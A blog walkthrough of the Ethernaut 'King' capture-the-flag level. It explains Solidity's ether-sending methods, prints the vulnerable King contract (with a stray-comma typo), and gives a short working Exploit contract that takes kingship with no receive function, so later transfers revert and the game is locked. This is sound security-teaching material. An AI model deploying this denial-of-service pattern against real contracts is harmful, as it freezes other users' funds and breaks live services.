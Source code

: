 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 9 - King👑"
datePublished: Tue Mar 21 2023 13:12:54 GMT+0000 (Coordinated Universal Time)
cuid: clfia04e1000909l90w7j67v2
slug: ethernaut-walkthrough-for-noobs-9-king
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1679400326024/122fa548-266f-4793-a4b9-99a8b42704ba.jpeg
tags: ethereum, smart-contracts, 2articles1week, ethernaut, smart-contract-security-audit

---
```


This is a good albeit easy challenge since this begins to teach us regarding the optimal methods to send ether to others in a contract.

> Objective: The challenge below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
> 
> Such a fun game. Your goal is to break it.
> 
> When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

Our goal is to hijack/break the contract, such that nobody in the future can send eth to this contract again and gain kingship.

### Background

There are in total three ways to send ether to other contracts.

1. `transfer`: requires '2300' gas and sends some amount of ether from sender to receiver. The transfer function **reverts** if the sender does not have enough ether or the receiver rejects out ether.
    
    This is of relevance to us.
    
    ```solidity
    receiverAddress.transfer(amount) //this is our point of attack.
    ```
    
2. `send` : requires '2300' gas and sends some amount of ether from sender to receiver. If the send function fails, it does not revert but rather returns a boolean, i.e. **false**.
    
    ```solidity
    receiverAddress.send(amount)
    ```
    
3. `call`: This is a low-level function of the upper two, it's flexible but comes up with various possible problems like 're-entrancy'. We will look into it in the next challenge.
    
    ```solidity
    (bool sent, bytes memory data) = receiverAddress.call{value: amount}("");
    //sent ---> return true or false, depending on the success of execution of call function. 
    //data --->  stores the data returned
    //"" ---> since it is empty, it will invoke the fallback/receive function.
    ```
    

> Note: `call` in combination with re-entrancy guard is the recommended method to use to send ether after December 2019.
> 
> [More info](https://solidity-by-example.org/sending-ether/)

### Code of Importance

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
//state variables
  address king; , //stores address of the king
  uint public prize; //stores the prize
  address public owner; //stores address of the owner

  constructor() payable {
    owner = msg.sender;//initializes msg.sender as owner
    king = msg.sender;//initialises king as msg.sender
    prize = msg.value;//initialises prize as msg.value
  }

  receive() external payable { //receive function
    require(msg.value >= prize || msg.sender == owner); //we must send greater than the previous king to become the king, also owner canvbypass this, which is a security flaw but not relevant in the challege. 
    payable(king).transfer(msg.value); //tranfers the amount sent by the sender to previous king
    king = msg.sender; //makes the person who has sent the amount the new king. 
    prize = msg.value; //now the prize has also updated, essentially inflating the prize, everytime someone becomes a king. 
  }

  function _king() public view returns (address) {
    return king; //checks who is the current king. 
  }
}
```

Since we know that `transfer` the function consumes 2300 gas and reverts if it cannot execute the transaction. This is interesting.

So, If hypothetically, we become king and get the `transfer` function to send Ether to a contract that does not receive ether, the function will revert, essentially rendering the contract unusable.

Here is the plan of attack:

1. Create a contract, send ether to the King Contract, and become the king.
    
2. But this new contract will not have any receive function.
    
3. When we submit the instance, the level will try to regain kingship, by sending some prize amount to the contract greater or equivalent to the prize sent by us.
    
4. Now, the `transfer` function will try to send that prize to our contract, but our contract not be able to receive it, since we will have any receive/fallback function.
    
5. The `transfer` function will revert, hence we will remain the king.
    
6. McUUAAAHHHHHH!
    

### Solution

1. Open up Remix IDE.
    
2. ```solidity
     // SPDX-License-Identifier: MIT
     pragma solidity ^0.8.0;
     
     contract Exploit{
     
         constructor(address payable _kingAddress) payable {
             _kingAddress.call{value: msg.value}("");
         }
     //this sends ether to the king contract, during the construction of contract and has no receive function. 
     }
    ```
    
3. In Remix, after compiling, put the level instance in `_kingAddress` in the deploy section.
    
4. Switch to Injected provider, and put the value as 3000000000000000 Wei. This is more than required, but elite mentality we are kings, let's splurge a little here guys.
    
5. Deploy the contract.
    
6. Check if you are king in the console.
    

```javascript
await contract._king()
```

1. Submit Instance
    

King👑
